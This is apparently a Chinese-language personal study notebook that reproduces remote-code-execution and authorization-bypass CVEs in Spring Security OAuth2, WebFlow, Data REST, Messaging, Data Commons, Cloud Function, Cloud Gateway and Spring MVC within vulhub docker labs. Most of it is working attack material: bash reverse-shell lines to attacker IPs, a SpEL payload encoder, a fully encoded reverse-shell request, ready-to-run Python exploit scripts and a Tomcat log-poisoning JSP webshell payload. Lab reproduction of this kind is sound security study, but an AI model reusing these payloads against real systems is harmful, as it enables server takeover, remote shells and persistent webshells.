

# 路由和版本

## 路由知识

- 有些程序员会自定义`/manage`、`/management`、项目 App 相关名称为 spring 根路径
- Spring Boot Actuator 1.x 版本默认内置路由的起始路径为`/`，2.x 版本则统一以`/actuator`为起始路径
- Spring Boot Actuator 默认的内置路由名字，如`/env`有时候也会被程序员修改，比如修改成`/appenv`


# 远程命令执行

## Spring Security OAuth2 远程命令执行

```
Spring Security OAuth2 远程命令执行漏洞（CVE-2016-4977）
```

漏洞介绍

 Spring Security OAuth 是为 Spring 框架提供安全认证支持的一个模块。在其使用 whitelabel views 来处理错误时，由于使用了Springs Expression Language (SpEL)，攻击者在被授权的情况下可以通过构造恶意参数来远程执行命令。  


漏洞环境搭建

漏洞环境搭建

Unbantu、docker、vulhub

```
spring-security-oauth2:2.0.8
cd ./vulhub/spring/CVE-2016-4977

docker-compose up -d
```

 启动完成后，访问`http://your-ip:8080/`即可看到web页面。  


漏洞复现

1.  访问`http://192.168.1.10:8080/oauth/authorize`首先需要填写用户名和密码，我们这里填入`admin:admin`即可。


可以看到报错


1. ，我们输入是SpEL表达式${233*233}已经成功执行并返回结果：

```python
http://192.168.1.10:8080/oauth/authorize?response_type=${233*233}&client_id=acme&scope=openid&redirect_uri=http://test
```


1.  然后，我们使用[poc.py](https://github.com/vulhub/vulhub/blob/master/spring/CVE-2016-4977/poc.py)来生成反弹shell的POC（注意：[Java反弹shell的限制与绕过方式](http://www.jackson-t.ca/runtime-exec-payloads.html)）：  

```python
bash -i >& /dev/tcp/192.168.1.129/3344 0>&1
# 编码后
bash -c {echo, YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTI5LzMzNDQgMD4mMQ==}|{base64, -d}|{bash, -i}
```


```python
#!/usr/bin/env python

message = input('Enter message to encode:')

poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])

for ch in message[1:]:
   poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch) 

poc += ')}'

print(poc)
```

1.  如上图，生成了一大串SpEL语句。url中`response_type=`参数后附带上这个SpEL语句，访问成功弹回shell：  

```python
GET /oauth/authorize?response_type=${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(98).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(70)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(83)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(43)).concat(T(java.lang.Character).toString(74)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(90)).concat(T(java.lang.Character).toString(71)).concat(T(java.lang.Character).toString(86)).concat(T(java.lang.Character).toString(50)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(51)).concat(T(java.lang.Character).toString(82)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(56)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(79)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(69)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(78)).concat(T(java.lang.Character).toString(68)).concat(T(java.lang.Character).toString(81)).concat(T(java.lang.Character).toString(103)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(68)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(81)).concat(T(java.lang.Character).toString(61)).concat(T(java.lang.Character).toString(61)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(54)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(125)))}&client_id=acme&scope=openid&redirect_uri=http://test HTTP/1.1
Host: 192.168.1.10:8080
Cache-Control: max-age=0
Authorization: Basic YWRtaW46YWRtaW4=
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```


## Spring WebFlow 远程代码执行

```
Spring WebFlow 远程代码执行漏洞（CVE-2017-4971）
```

漏洞介绍

Spring WebFlow 是一个适用于开发基于流程的应用程序的框架（如购物逻辑），可以将流程的定义和实现流程行为的类和视图分离开来。在其 `2.4.x`版本中，如果我们控制了数据绑定时的field，将导致一个SpEL表达式注入漏洞，最终造成任意命令执行。  


漏洞环境搭建

Unbantu、docker、vulhub

```
spring-webflow:2.4.4
cd ./vulhub/spring/CVE-2017-4971
```

 等待环境启动后，访问`http://192.168.1.10:8080`，将看到一个酒店预订的页面，这是spring-webflow官方给的简单示例。  


漏洞复现

1.  首先访问`http://192.168.1.10:8080/login`，用页面左边给出的任意一个账号/密码登录系统：

  

1. 然后访问id为1的酒店`http://192.168.1.10:8080/hotels/1`，点击预订按钮“Book Hotel”，填写相关信息后点击“Process”（从这一步，其实WebFlow就正式开始了）：


\3. 再点击确认“Confirm”， 此时抓包，抓到一个POST数据包，我们向其中添加一个字段（也就是反弹shell的POC）：  

```python
_(new java.lang.ProcessBuilder("bash","-c","bash -i >& /dev/tcp/10.0.0.1/21 0>&1")).start()=vulhub
```

对&符号进行url编码


1. 成功反弹shell


## Spring Data Rest 远程命令执行

```
Spring Data Rest 远程命令执行漏洞（CVE-2017-8046）
```

漏洞介绍

 Spring Data REST是一个构建在Spring Data之上，为了帮助开发者更加容易地开发REST风格的Web服务。在REST API的Patch方法中（实现[RFC6902](https://tools.ietf.org/html/rfc6902)），path的值被传入setValue，导致执行了SpEL表达式，触发远程命令执行漏洞。  


漏洞环境搭建

Unbantu、docker、vulhub

```
spring-rest-data:2.6.6
cd /vulhub/spring/CVE-2017-8046

docker-compose up -d
```

 等待环境启动完成，然后访问`http://192.168.1.10:8080/`即可看到json格式的返回值，说明这是一个Restful风格的API服务器。  


漏洞复现

 \1. 访问`http://192.168.1.10:8080/customers/1`，看到一个资源。我们使用PATCH请求来修改之：  

```python
PATCH /customers/1 HTTP/1.1
Host: 192.68.1.10:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json-patch+json
Content-Length: 202

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]
```

 path的值是SpEL表达式，发送上述数据包，将执行new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}表示的命令touch /tmp/success，是经过[ACII编码](https://www.qqxiuzi.cn/bianma/ascii.htm#:~:text=ASCII编码转换 1 输入字符时，连续输入即可。 超出ASCII字集的字符以Unicode或UTF-16BE编码显示。,2 输入ASCII码时，以逗号分隔每个编码。 十六进制和二进制编码支持连续输入，以兼容ASCII的UTF-16BE解码：十六进制 0000-007F；二进制 0000000000000000-0000000001111111。)得到的（十进制）。

1. 然后进入容器docker-compose exec spring bash看看：  


## Spring Messaging 远程命令执行

`Spring Messaging 远程命令执行漏洞（CVE-2018-1270`）

漏洞介绍

spring messaging为spring框架提供消息支持，其上层协议是STOMP，底层通信基于SockJS，

在spring messaging中，其允许客户端订阅消息，并使用selector过滤消息。selector用SpEL表达式编写，并使用`StandardEvaluationContext`解析，造成命令执行漏洞。


漏洞环境搭建

Ubantu、docker、vulhub

```
spring-messaging:5.0.4
cd ./vulhub/spring/CVE-2018-1270

docker-compose up -d
```

 环境启动后，访问`http://192.168.1.10:8080`即可看到一个Web页面。  


漏洞复现

 网上大部分文章都说spring messaging是基于websocket通信，其实不然。spring messaging是基于sockjs（可以理解为一个通信协议），而sockjs适配多种浏览器：现代浏览器中使用websocket通信，老式浏览器中使用ajax通信。  

 连接后端服务器的流程，可以理解为：  

1. 用[STOMP协议](http://jmesnil.net/stomp-websocket/doc/)将数据组合成一个文本流
2. 用[sockjs协议](https://github.com/sockjs/sockjs-client)发送文本流，sockjs会选择一个合适的通道：websocket或xhr(http)，与后端通信

 所以我们可以使用http来复现漏洞，称之为“降维打击”。  

通过POC脚本[exploit.py](https://github.com/vulhub/vulhub/blob/master/spring/CVE-2018-1270/exploit.py)（需要用python3.6执行），因为该漏洞是订阅的时候插入SpEL表达式，而对方向这个订阅发送消息时才会触发，所以我们需要指定的信息有： 

1. 基础地址，在vulhub中为`http://your-ip:8080/gs-guide-websocket`
2. 待执行的SpEL表达式，如`T(java.lang.Runtime).getRuntime().exec('touch /tmp/success')`
3. 某一个订阅的地址，如vulhub中为：`/topic/greetings`
4. 如何触发这个订阅，即如何让后端向这个订阅发送消息。在vulhub中，我们向`/app/hello`发送一个包含name的json，即可触发这个事件。当然在实战中就不同了，所以这个poc并不具有通用性。

  根据你自己的需求修改POC。如果是vulhub环境，你只需修改1中的url即可。  

```python
#!/usr/bin/env python3
import requests
import random
import string
import time
import threading
import logging
import sys
import json

logging.basicConfig(stream=sys.stdout, level=logging.INFO)

def random_str(length):
    letters = string.ascii_lowercase + string.digits
    return ''.join(random.choice(letters) for c in range(length))


class SockJS(threading.Thread):
    def __init__(self, url, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'
        self.daemon = True
        self.session = requests.session()
        self.session.headers = {
            'Referer': url,
            'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'
        }
        self.t = int(time.time()*1000)

    def run(self):
        url = f'{self.base}/htmlfile?c=_jp.vulhub'
        response = self.session.get(url, stream=True)
        for line in response.iter_lines():
            time.sleep(0.5)

    def send(self, command, headers, body=''):
        data = [command.upper(), '\n']

        data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))

        data.append('\n\n')
        data.append(body)
        data.append('\x00')
        data = json.dumps([''.join(data)])

        response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)
        if response.status_code != 204:
            logging.info(f"send '{command}' data error.")
        else:
            logging.info(f"send '{command}' data success.")

    def __del__(self):
        self.session.close()


sockjs = SockJS('http://192.168.1.10:8080/gs-guide-websocket')
sockjs.start()
time.sleep(1)

sockjs.send('connect', {
    'accept-version': '1.1,1.0',
    'heart-beat': '10000,10000'
})
sockjs.send('subscribe', {
    'selector': "T(java.lang.Runtime).getRuntime().exec('touch /tmp/success')",
    'id': 'sub-0',
    'destination': '/topic/greetings'
})

data = json.dumps({'name': 'vulhub'})
sockjs.send('send', {
    'content-length': len(data),
    'destination': '/app/hello'
}, data)
```

5.执行poc

```python
python3 POC.py
```

\6. 进入容器`docker-compose exec spring bash`，可见/tmp/success已成功创建：  


参考笔记：

1. https://vulhub.org/#/environments/spring/CVE-2018-1270/

## Spring Data Commons 远程命令执行

```
Spring Data Commons 远程命令执行漏洞（CVE-2018-1273）
```


漏洞介绍

Spring Data是一个用于简化数据库访问，并支持云服务的开源框架，Spring Data Commons是Spring Data下所有子项目共享的基础框架。Spring Data Commons 在`2.0.5`及以前版本中，存在一处SpEL表达式注入漏洞，攻击者可以注入恶意SpEL表达式以执行任意命令。  


漏洞环境搭建

Ubantu、docker、vulhub

```
spring-data-commons:2.0.5
cd ./vulhub/spring/CVE-2018-1273

docker-compose up -d
```

 稍等一会，环境启动后，访问`http://192.168.1.10:8080/users`，将可以看到一个用户注册页面。  


漏洞复现

1.  在注册的时候抓包，并修改成如下数据包：  

```plain
POST /users?page=&size=5 HTTP/1.1
Host: 192.168.1.10:8080
Connection: keep-alive
Content-Length: 124
Pragma: no-cache
Cache-Control: no-cache
Origin: http://192.168.1.10:8080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://192.168.1.10:8080/users?page=0&size=5
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/success")]=admin&password=admin888&repeatedPassword=admin888
```


1.  执行`docker-compose exec spring bash`进入容器中，可见成功创建`/tmp/success`，说明命令执行成功：  


参考笔记：

1. https://vulhub.org/#/environments/spring/CVE-2018-1273/

## Spring Cloud Function 远程代码执行

```
Spring Cloud Function SpEL Code Injection (CVE-2022-22963)
```

漏洞介绍

 Spring Cloud Function 提供了一个通用的模型，用于在各种平台上部署基于函数的软件，包括像 Amazon AWS Lambda 这样的 FaaS（函数即服务，function as a service）平台。  


漏洞环境搭建

Ubantu、docker、vulhub

```
spring-cloud-function:3.2.2 
1.
cd /vulhub/sprint/CVE-2022-22963/

2.
docker-compose up -d
```

 服务启动后，执行`curl http://your-ip:8080/uppercase -H "Content-Type: text/plain" --data-binary test`即可执行uppercase函数，将输入字符串转换成大写。  


1. 发送如下数据包，`spring.cloud.function.routing-expression`头中包含的SpEL表达式将会被执行：  

```python
POST /functionRouter HTTP/1.1
Host: 192.168.1.10:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
Content-Type: text/plain
Content-Length: 4

test
```


1.  可见，touch /tmp/success已经成功被执行：  


## Spring Cloud Gateway 远程代码执行

```
Spring Cloud Gateway Actuator API SpEL表达式注入命令执行（CVE-2022-22947）
```

漏洞介绍

Spring Cloud Gateway是Spring中的一个API网关。其`3.1.0`及`3.0.6`版本（包含）以前存在一处SpEL表达式注入漏洞，当攻击者可以访问Actuator API的情况下，将可以利用该漏洞执行任意命令  。


漏洞利用过程

1. 添加包含恶意代码的路由
2. 应用刚刚添加的路由
3. 访问添加的恶意路由，查看命令执行结果


漏洞环境搭建

```
spring-cloud-gateway:3.1.0 
```

使用docker环境，vulhub靶场

```bash
1.
cd /vulhub/spring/CVE-2022-22947/

2.
docker-compose up -d

3.服务启动后，访问http://your-ip:8080即可看到演示页面，这个页面的上游就是example.com。
```


漏洞复现

1. 添加包含恶意的路由，发送如下数据包即可添加一个包含恶意SpEL表达式的路由

```bash
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: 192.168.1.10:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```


2.刷新网关路由，然后，发送如下数据包应用刚添加的路由。这个数据包将触发SpEL表达式的执行：

```java
POST /actuator/gateway/refresh HTTP/1.1
Host: 192.168.1.10:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

    
```

**踩坑：我遇到的问题，有的可能跟我操作一样，但是结果不一样，比如点击bp重发器发送没反应，这时候你直接在数据包最后面加两个回车就好了！**


\3. 访问添加的恶意路由，发送如下数据包即可查看执行结果：  

```java
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: 192.168.1.10:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

    
```

4. 最后，发送如下数据包清理现场，删除所添加的路由：  

```java
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```

\5. 再刷新下路由：  

```java
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```


CVE-2022-22947_Rce_Exp

```python
# https://github.com/Axx8/CVE-2022-22947_Rce_Exp
import requests
import json
import base64
import re

payload1 = '/actuator/gateway/routes/66Sec'
payload2 = '/actuator/gateway/refresh'
payload3 = '/actuator/gateway/routes/66Sec'
headers = {
    'Accept-Encoding': 'gzip, deflate',
    'Accept': '*/*',
    'Accept-Language': 'en',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
    'Connection': 'close',
    'Content-Type': 'application/json'
}
proxies = {
    'http': 'http://192.168.1.119:8080'
}


data = 'ewogICJpZCI6ICJXZWlhblNlYyIsCiAgImZpbHRlcnMiOiBbewogICAgIm5hbWUiOiAiQWRkUmVzcG9uc2VIZWFkZXIiLAogICAgImFyZ3MiOiB7CiAgICAgICJuYW1lIjogIlJlc3VsdCIsCiAgICAgICJ2YWx1ZSI6ICIje25ldyBTdHJpbmcoVChvcmcuc3ByaW5nZnJhbWV3b3JrLnV0aWwuU3RyZWFtVXRpbHMpLmNvcHlUb0J5dGVBcnJheShUKGphdmEubGFuZy5SdW50aW1lKS5nZXRSdW50aW1lKCkuZXhlYyhuZXcgU3RyaW5nW117XCJDbWRcIn0pLmdldElucHV0U3RyZWFtKCkpKX0iCiAgICB9CiAgfV0sCiAgInVyaSI6ICJodHRwOi8vZXhhbXBsZS5jb20iCn0='

data1 = {
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Connection': 'close',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Content-Length': '0'
}

def exec():
    requests.post(url+payload1,headers=headers,data=base64.b64decode(data).decode().replace('Cmd',cmd),verify=False,timeout=5)
    requests.post(url+payload2,headers=headers,data=data1,verify=False,timeout=5)
    a = requests.get(url+payload3,headers=headers,verify=False,timeout=5).text
    exec = re.findall(r'Result = [\'"]?([^\'" )]+)', a)
    print(exec)

if __name__ == '__main__':
    url = input("Url:")
    cmd = input("Cmd:")
    exec()
```


参考笔记：

1. https://github.com/vulhub/vulhub/blob/master/spring/CVE-2022-22947/README.zh-cn.md

## Spring JDK9+数据绑定远程命令执行

```
通过JDK 9+上的数据绑定实现Spring Framework RCE（CVE-2022-22965）
```

漏洞介绍

 Spring framework 是Spring 里面的一个基础开源框架，其目的是用于简化 Java 企业级应用的开发难度和开发周期,2022年3月31日，VMware Tanzu发布漏洞报告，Spring Framework存在远程代码执行漏洞， 在JDK 9+上运行的Spring MVC或Spring WebFlux应用程序可能容易通过数据绑定执行远程代码（RCE）。

特定漏洞需要应用程序作为WAR部署在Tomcat上运行。如果应用程序部署为Spring Boot可执行jar（即默认配置），则不会受到攻击。然而，该漏洞的性质更为普遍，可能还有其他方法可以利用它。


漏洞环境搭建

Ubantu、docker、vulhub

```
spring-webmvc:5.3.17
```

执行以下命令以启动使用Spring WebMVC 5.3.17的服务器：

```python
cd /vulhub/spring/CVE-2022-22965

docker-compose up -d
```

服务器启动后，浏览`http://your-ip:8080/?name=Bob&age=25`以查看示例页面。


漏洞复现

1. 发送以下请求以更改Apache Tomcat中的日志记录配置，并将日志作为JSP文件写入：

```plain
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: 192.168.1.10:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1
```



1. 然后，您可以使用JSP webshell成功执行任意命令：

```plain
http://192.168.1.10:8080/tomcatwar.jsp?pwd=j&cmd=id
```


1. 注意，您应该清除`class.module.classLoader.resources.context.parent.pipeline.first`。模式，因为每个请求日志都将写入该文件。发送以下请求以清除属性：

```plain
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```

参考笔记：


## Spring安全授权绕过RegexRequestMatcher

```
CVE-2022-22978:RegexRequestMatcher中的Spring安全授权绕过
```

漏洞介绍

在SpringSecurity版本`5.5.6`和`5.6.3`以及不受支持的旧版本中，`RegexRequestMatcher`很容易被错误配置为在一些`servlet`容器上被绕过。

在正则表达式中使用带有`.`的`RegexRequestMatcher`的应用程序可能容易绕过授权。


漏洞环境搭建

Ubantu、docker、vulhub

```
spring-security:5.6.3
1.
cd ./vulhub/spring/CVE-2022-22978

2.
docker-compose up -d
#我环境没有搭建成功
```

服务器启动后，浏览到`http://your-ip:8080/admin`以查看对管理页面的访问被阻止。


漏洞复现

发送以下请求以访问管理页面：

- http://your-ip:8080/admin/%0atest
- http://your-ip:8080/admin/%0dtest

%0a  换行符，%0d	回车


## 参考笔记：

1. https://blog.csdn.net/m0_67403188/article/details/126115162
2. https://github.com/LandGrey/SpringBootVulExploit
3. [https://ad-calcium.github.io/2021/12/springboot%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E6%80%BB%E7%BB%93/](https://ad-calcium.github.io/2021/12/springboot漏洞利用总结/)
4. https://blog.zgsec.cn/index.php/archives/129/（曾哥）

